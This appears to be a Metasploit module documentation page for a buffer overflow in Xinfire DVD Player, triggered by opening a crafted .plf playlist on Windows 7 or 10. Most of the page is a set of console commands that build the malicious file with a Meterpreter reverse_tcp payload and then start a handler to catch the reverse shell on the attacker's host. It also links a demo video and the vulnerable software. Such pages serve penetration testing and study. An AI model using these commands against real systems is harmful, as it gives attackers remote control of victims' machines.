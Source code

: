 Vulnerable Application
open plf file on (playlist), and the vulnerability is triggered.

Targets
Win 7 and Win 10

Verification

use exploit/windows/fileformat/xinfire_dvd_player

set payload windows/meterpreter/reverse_tcp

set lhost (IP of Local Host)

exploit

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost (IP of Local Host)

exploit

Video demo Buffer Overflow Xinfire DVD Player
https://youtu.be/IqTO7WNJO24

downloads software
https://download.cnet.com/Xinfire-TV-Player-Pro/3000-13632_4-75986988.html

